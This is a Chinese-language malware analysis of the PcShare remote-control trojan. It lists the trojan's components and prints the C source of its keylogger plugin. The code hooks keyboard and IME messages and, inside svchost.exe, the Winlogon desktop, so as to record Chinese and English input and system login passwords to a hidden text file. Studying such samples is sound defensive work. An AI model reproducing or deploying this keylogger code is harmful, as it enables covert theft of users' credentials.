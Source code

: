 PcLKey键盘记录插件

PcStart可执行安装主程序

PcMake 连接型DLL小马

PcMain 主功能控制插件

PcShare 主控程序带界面

我们先看下会员版本配置界面，然后在开始分析。你可以发现会员版本和早期拿到的版本不一样，有一个捆绑文件功能，而这个功能有一个亮点“压缩编码”。想知道？继续看

![enter image description here](http://drops.javaweb.org/uploads/images/7d70d24fc9df5ca70532b17d45555a4358c5874c.jpg)

PcLKey键盘记录插件 编译文件名：PcLkey.dll 这款键盘记录插件的特色就是可以记录中文英文等，而且可以尝试记录系统登录密码。服务启动SYSTEM权限的，登陆系统密码记录应该是支持XP/2003的，具体大家测测看。

以下是启动监控中文和英文及登录窗口输入记录，处理流程代码。 离线键盘记录数据文件以*.dll.txt存储，和dll一个目录。

```
    //数据文件名称
    *pEnd = 0x00;
    lstrcat(m_ModuleFileName, ".txt");
    strcpy(m_KeyFilePath, m_ModuleFileName);

    HDESK hOldDesktop = GetThreadDesktop(GetCurrentThreadId());

    //监控中文和英文
    HDESK hNewDesktop = OpenDesktop("Default", 0, FALSE, MAXIMUM_ALLOWED);
    if(hNewDesktop != NULL)
    {
        SetThreadDesktop(hNewDesktop);
    }

    if(NULL == g_hKeyHK_CN)
    {
        g_hKeyHK_CN = SetWindowsHookExW(WH_CALLWNDPROC, HOOK_WM_IME_COMPOSITION_Proc, ghInstance, 0);
    }
    if(NULL == g_hKeyHK_EN)
    {
        g_hKeyHK_EN = SetWindowsHookExW(WH_GETMESSAGE, HOOK_WM_CHAR_Proc, ghInstance, 0);
    }

    GetModuleFileName(NULL, m_ModuleFileName, 255);
    CharLower(m_ModuleFileName);
    if(strstr(m_ModuleFileName, "svchost.exe") != NULL)
    {
        //监控登录窗口
        hNewDesktop = OpenDesktop("Winlogon", 0, FALSE, MAXIMUM_ALLOWED);
        if(hNewDesktop != NULL)
        {
            SetThreadDesktop(hNewDesktop);
        }
        if(NULL == g_hKeyHK_LG)
        {
            g_hKeyHK_LG = SetWindowsHookExW(WH_GETMESSAGE, HOOK_WM_CHAR_LOGIN_Proc, ghInstance, 0);
        }
        SetThreadDesktop(hOldDesktop);
    }

```
